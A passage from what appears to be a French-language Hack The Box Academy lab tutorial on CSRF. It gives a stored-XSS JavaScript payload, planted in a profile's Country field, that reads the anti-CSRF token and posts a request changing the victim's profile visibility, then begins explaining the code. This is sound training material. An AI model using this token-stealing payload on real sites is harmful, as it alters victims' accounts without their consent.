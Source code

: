 Vous devriez voir ci-dessous dans le proxy de Burp Suite.

![image](https://academy.hackthebox.com/storage/modules/153/56.png)

Transférez toutes les demandes afin que le profil d'Ela Stienen devienne public.

Concentrons-nous sur la charge utile que nous devons spécifier dans le champ *Pays* du profil d'Ela Stienen pour exécuter avec succès une attaque CSRF qui modifiera les paramètres de visibilité de la victime (de privé à public et vice versa).

La charge utile que nous devons spécifier peut être vue ci-dessous.

Code : javascript

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>

```

Laissez-nous décomposer les choses pour vous.

Tout d'abord, nous mettons le script entier dans `<script>`des balises, afin qu'il soit exécuté en tant que JavaScript valide ; sinon, il sera rendu sous forme de texte.

Code : javascript

```
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();

```

L'extrait de script ci-dessus crée un ObjectVariable appelé *req* , que nous utiliserons pour générer une requête. *var req = new XMLHttpRequest(); *nous permet de nous préparer à envoyer des requêtes HTTP.

Code : javascript

```
req.onload = handleResponse;

```

Dans l'extrait de script ci-dessus, nous voyons le gestionnaire d'événements *onload* , qui effectuera une action une fois la page chargée. Cette action sera liée à la fonction *handleResponse* que nous définirons plus tard.
